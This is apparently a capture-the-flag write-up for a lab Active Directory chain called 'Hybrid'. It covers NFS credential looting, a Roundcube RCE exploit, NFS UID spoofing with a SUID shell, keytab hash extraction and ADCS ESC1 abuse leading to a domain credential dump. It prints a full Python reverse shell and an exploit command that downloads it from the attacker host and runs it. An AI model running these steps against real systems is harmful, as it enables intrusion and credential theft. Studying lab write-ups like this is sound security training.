Hybrid is a two-machine hybrid environment Active Directory chain, created by xct. The attack path involves exploiting an exposed NFS share to obtain credentials, leveraging a Roundcube vulnerability for initial access, escalating privileges through NFS UID manipulation, and ultimately compromising the domain through ADCS ESC1 exploitation.

### Tools
---
- https://nmap.org/
- https://github.com/fortra/impacket
- https://github.com/Pennyw0rth/NetExec/
- https://github.com/CravateRouge/bloodyAD
- https://github.com/ozelis/winrmexec
- https://github.com/SpecterOps/BloodHound
- https://github.com/openwall/john
- https://github.com/ly4k/Certipy
- https://github.com/sosdave/KeyTabExtract

## Recon
---
```sh
dc01.hybrid.vl / 10.10.149.245
PORT      STATE SERVICE
53/tcp    open  domain
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
9389/tcp  open  adws

mail01.hybrid.vl / 10.10.149.246
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
143/tcp   open  imap
587/tcp   open  submission
993/tcp   open  imaps
995/tcp   open  pop3s
2049/tcp  open  nfs
```
We can see from nmap that mail01.hybrid.vl is open on port 80 with Roundcube webmail, but without credentials there's no way forward here.


Attempts to enumerate SMB shares on the DC using null sessions and guest access both fail:
```sh
nxc smb dc01.hybrid.vl -u '' -p '' --shares
nxc smb dc01.hybrid.vl -u 'Guest' -p '' --shares
```


Enumerating NFS exports reveals an accessible share:
```sh
showmount -e mail01.hybrid.vl
```


The `/opt/share` directory is exported and can be mounted:
```sh
sudo mount -t nfs mail01.hybrid.vl:/opt/share share
```


Inside the share, we find `backup.tar.gz`. We copy it locally and unmount:
```sh
cp backup.tar.gz ..
```


```sh
umount ./share
```

Extracting the backup with tar reveals sensitive configuration files:
```sh
tar -xvf backup.tar.gz
```


The Dovecot configuration contains plaintext credentials for a pair of users:
```sh
cat etc/dovecot/dovecot-users
```


Both accounts successfully authenticate to the Roundcube webmail interface.
```
admin@hybrid.vl // $ADMINPASS
```


### Foothold
---
A recent authenticated RCE vulnerability exists in Roundcube. While this CVE was discovered after the machine's release, it provides an excellent exploitation path.
https://github.com/hakaioffsec/CVE-2025-49113-exploit

First, start an HTTP server:
```sh
ip addr;sudo python -m http.server 80
```

Then test the exploit with a simple callback:
```sh
php CVE-2025-49113.php http://mail01.hybrid.vl 'admin@hybrid.vl' $ADMINPASS 'wget http://10.8.3.84/test'
```


The successful HTTP request confirms code execution.


From here we're going to create a Python reverse shell (shell_tcp.py):
```python
import os
import socket
import sys
import pty

if os.fork() == 0:
    cb = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    cb.connect((sys.argv[1], int(sys.argv[2])))

    os.dup2(cb.fileno(), 0)
    os.dup2(cb.fileno(), 1)
    os.dup2(cb.fileno(), 2)

    pty.spawn("/bin/sh")

    cb.close()
```

Set up a listener to catch the reverse shell:
```sh
rlwrap nc -nvlp 5050
```

Then download and execute the shell through the exploit:
```sh
php CVE-2025-49113.php http://mail01.hybrid.vl 'admin@hybrid.vl' $ADMINPASS 'curl http://10.8.3.84/shell_tcp.py -o /dev/shm/tcp.py; python3 /dev/shm/tcp.py 10.8.3.84 5050'
```


A callback is received, establishing a foothold on MAIL01.


### Privesc on Mail01
---
Enumerating the system reveals a domain user profile in `/home`:
```sh
id peter.turner@hybrid.vl
```


Unfortunately we don't have permissions to access the user's home folder:


Using the information we gathered by running `id` we can exploit NFS by creating a local user with a matching UID to impersonate `peter.turner`.
```sh
sudo useradd nfs_hybrid
```

Modify the UID for the new user in /etc/passwd to match `peter.turner`'s, `902601108`:
```sh
sudo sed -i -e 's/1002/902601108/g' /etc/passwd
```
Before:


After:


On the target, copy bash to the NFS share:
```sh
cp /bin/bash /opt/share/
```

On our attack machine, mount the share and retrieve the binary:


Remove it from the share on the target:
```sh
rm /opt/share/bash
```

Change ownership to our spoofed user:
```sh
chown nfs_hybrid:nfs_hybrid ../bash
```


Then we copy it back to the share and set the SUID bit, which will allow us to impersonate `peter.turner`.
```sh
chmod 4777 ../bash
```


We now have effective privileges as `peter.turner`.
```sh
/opt/share/bash -p
```


This allows us to access their home directory, and retrieve the first flag.


#### Keepass
---
`peter.turner` has a keepass database file in their home directory. Since we have write permissions in their home folder now lets add an ssh key to be able to login as the user.






This allows us to use scp to copy the database back to our machine.
```sh
scp -i peter peter.turner@hybrid.vl@mail01.hybrid.vl:/home/peter.turner@hybrid.vl/passwords.kdbx .
```


We got `peter.turner`'s email password from the backup, first lets check for password re-use and see if that gets us into the passwords file:


It works, and we can find `peter.turner`'s domain password, which we can use to elevate to root on Mail01.
```sh
sudo su
```


And collect our second flag.


### Domain Enumeration
---
Using `peter.turner`'s domain credentials we can collect BloodHound data with `bloodyAD`:
```sh
bloodyAD --host dc01.hybrid.vl -d hybrid.vl -u peter.turner -p $PETERPASS get bloodhound
```




The initial analysis doesn't reveal obvious privilege escalation paths, so we continue enumerating and check for ADCS vulnerabilities with certipy:
```sh
certipy find -u peter.turner@hybrid.vl -p $PETERPASS -target dc01.hybrid.vl -dns-tcp -vulnerable
```




Checking the output we see the HybridComputers template is vulnerable to ESC1 and allows enrollment from domain computers. Notably, it requires a 4096-bit key size.

MAIL01 is a domain-joined computer, making it an ideal candidate for exploitation.


### Domain PrivEsc
---
As root on MAIL01, we can extract the Kerberos keytab containing the machine account's credentials.
Copy and transfer it locally:
```sh
cp /etc/krb5.keytab krb5.keytab
chmod 777 ./krb5.keytab
```


```sh
scp -i peter peter.turner@hybrid.vl@mail01.hybrid.vl:/home/peter.turner@hybrid.vl/krb5.keytab .
```


Next we can extract credentials using KeyTabExtract, which provides the NTLM hash and AES keys for MAIL01$:
https://github.com/sosdave/KeyTabExtract
```sh
python keytabextract.py ./krb5.keytab
```


#### ESC1 -> RBCD
---
Hashes in hand we can request a certificate for the Administrator using ESC1:
```sh
certipy req -u 'MAIL01$' -hashes :$MAILHASH -ca hybrid-DC01-CA -target dc01.hybrid.vl -template HybridComputers -upn administrator@hybrid.vl -key-size 4096
```


However Attempting to authenticate with the certificate fails with `KDC_ERROR_CLIENT_NOT_TRUSTED`.
```sh
certipy auth -pfx 'administrator.pfx' -dc-ip 10.10.149.245
```


Instead of trying to get the Administrator's hash we can get an ldap shell:
```sh
certipy auth -pfx 'administrator.pfx' -dc-ip 10.10.149.245 -ldap-shell
```


From our ldap shell we Configure Resource-Based Constrained Delegation (RBCD) to give our controlled `MAIL01$` account delegation over the DC
```sh
set_rbcd 'DC01$' 'MAIL01$'
```


Request a service ticket to access the DC as Administrator:
```sh
getST.py -spn 'cifs/dc01.hybrid.vl' -impersonate Administrator -dc-ip 'dc01.hybrid.vl' -hashes :$MAILHASH 'hybrid.vl'/'MAIL01$'
```


With the silver ticket we can use secretsdump.py to dump domain credentials:
```sh
secretsdump.py -k -no-pass 'hybrid.vl'/'Administrator'@dc01.hybrid.vl
```


#### ESC1 -> S4U
Alternatively instead of targeting the administrator for the ESC1 we cat request a certificate for the `dc01$` machine account:
```sh
certipy req -u 'MAIL01$' -hashes :$MAILHASH -ca hybrid-DC01-CA -target dc01.hybrid.vl -template HybridComputers -upn 'DC01$'@hybrid.vl -key-size 4096
```


Authenticate to obtain the DC's hash:
```sh
certipy auth -pfx 'dc01.pfx' -dc-ip 10.10.149.245
```


Then use S4U to create a silver ticket to access it as the Administrator, first request a TGT for the DC machine account:
```sh
getTGT.py -dc-ip dc01.hybrid.vl -hashes :$DCHASH 'hybrid.vl'/'dc01$'
```


Perform S4U2Self to impersonate Administrator:
```sh
getST.py -self -impersonate "Administrator" -altservice "http/dc01.hybrid.vl" -k -no-pass -dc-ip dc01.hybrid.vl 'hybrid.vl'/'dc01$'
```


And finally connect via WinRM, completing the chain.
```sh
winrmexec.py -k -no-pass 'hybrid.vl'/'Administrator'@dc01.hybrid.vl
```

